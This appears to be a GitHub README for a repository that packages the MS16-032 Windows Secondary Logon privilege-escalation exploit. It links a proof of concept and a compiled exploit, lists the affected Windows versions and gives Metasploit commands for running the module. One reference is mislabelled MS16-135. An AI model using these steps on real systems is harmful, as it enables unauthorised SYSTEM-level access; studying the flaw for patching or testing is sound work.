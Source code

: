 # MS16-032

- The POC of MS16-032 was from [exp-db](https://www.exploit-db.com/exploits/39719/)
- The exp(ms16-032.exe) was from [@khr0x40sh](https://github.com/khr0x40sh/ms16-032)

Vulnerability reference:
 * [MS16-135](https://technet.microsoft.com/en-us/library/security/ms16-032.aspx)
 * [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099)
 
## Targets
- Windows x86
- Windows x64

### Usage of MS16-032.ps1

![x86](img/x86.png)

![x64](img/x64.png)

### Windows 10

![Win10](img/win10.png)

***

## Use on msf

This module exploits the lack of sanitization of standard handles in Windows' Secondary Logon Service. The vulnerability is known to affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This module will only work against those versions of Windows with Powershell 2.0 or later and systems with two or more CPU cores.

```
 msf > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
 msf exploit(ms16_032_secondary_logon_handle_privesc) > show targets
        ...targets...
 msf exploit(ms16_032_secondary_logon_handle_privesc) > set TARGET <target-id>
 msf exploit(ms16_032_secondary_logon_handle_privesc) > show options
        ...show and set options...
 msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit  
```
